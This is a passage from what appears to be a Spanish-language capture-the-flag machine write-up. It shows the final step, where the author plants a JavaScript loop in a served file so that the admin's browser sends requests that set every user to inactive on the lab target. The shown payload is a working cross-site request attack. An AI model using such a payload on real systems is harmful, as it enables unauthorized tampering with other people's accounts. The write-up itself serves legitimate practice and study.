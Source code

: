 ![Pasted image 20240313004931](https://github.com/JoseVazquez101/Writteups/assets/111292579/99e5f115-bc7b-4118-afa4-8aed86be411f)

- Solo por venganza, modifiqué el archivo `rubberCookie.js` y le puse esto:

~~~javascript
for (var id = 14; id >= 0; id--) {
    var request = new XMLHttpRequest();
    var url = "http://192.168.17.146/admin/admin.php?id=" + id + "&status=inactive";
    request.open('GET', url);
    request.send();
}
~~~

- Levanté un server en Python y cuando mi recurso se llamó, ocurrío la tragedia...

![Pasted image 20240313005729](https://github.com/JoseVazquez101/Writteups/assets/111292579/9cbf7d9a-cede-4de1-a4e8-8a410d72d173)

- Desactivamos a todos los usuarios, y por fin podemos descansar en paz.
- Este es el final de la máquina, en realidad me pareció bastante divertida y perfecta para repasar conceptos básicos de hacking web.
